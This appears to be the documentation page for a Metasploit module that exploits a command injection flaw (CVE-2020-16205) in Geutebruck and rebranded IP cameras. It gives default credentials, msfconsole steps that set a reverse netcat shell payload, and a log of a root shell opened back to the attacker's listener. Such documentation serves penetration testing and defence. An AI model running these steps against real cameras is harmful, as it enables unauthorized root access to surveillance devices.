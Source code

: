 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware <= 1.12.0.25 and also the 1.12.13.2 and the 1.12.14.5:
Encoder and E2 Series Camera models:
G-Code:
 EEC-2xxx
G-Cam:
 EBC-21xx
 EFD-22xx
 ETHC-22xx
 EWPC-22xx

Many brands use the same firmware:
UDP Technology (which is also the supplier of the firmware for the other vendors)
Ganz
Visualint
Cap
THRIVE Intelligence
Sophus
VCA
TripCorps
Sprinx Technologies
Smartec
Riva

This module has been tested on a Geutebruck 5.02024 G-Cam/EFD-2250 running 1.12.14.5 firmware.

### Description

This exploit a simple OS command injection (CVE-2020-16205) in the /uapi-cgi/admin/testaction.cgi page of the web interface.
Here is the advisory: https://us-cert.cisa.gov/ics/advisories/icsa-20-219-03

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_testaction_exec`
  4. Do: `set httpusername root`
  5. Do: `set httppassword admin`
  6. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `set payload cmd/unix/reverse_netcat_gaping`
  7. Do: `check` to be sure the target is vulnerable
  8. Do: `exploit`
  9. You should get a shell

## Options

The default credentials to log on the web interface are root/admin.

 ### HTTPUSERNAME
 A username used to authenticate on the admin page. **Default: root**

 ### HTTPPASSWORD
The password of the username used to authenticate on the admin page. **Default: admin**

## Scenarios

```
msf5 > use exploit/linux/http/geutebruck_testaction_exec
msf5 exploit(linux/http/geutebruck_testaction_exec) >
msf5 exploit(linux/http/geutebruck_testaction_exec) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httpusername root
httpusername => root
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httppassword admin
httppassword => admin
msf5 exploit(linux/http/geutebruck_testaction_exec) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf5 exploit(linux/http/geutebruck_testaction_exec) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf5 exploit(linux/http/geutebruck_testaction_exec) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2020-04-02 18:26:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-ge52275bd #1 PREEMPT Thu Jul 25 20:25:39 KST 2019 armv5tejl GNU/Linux
```
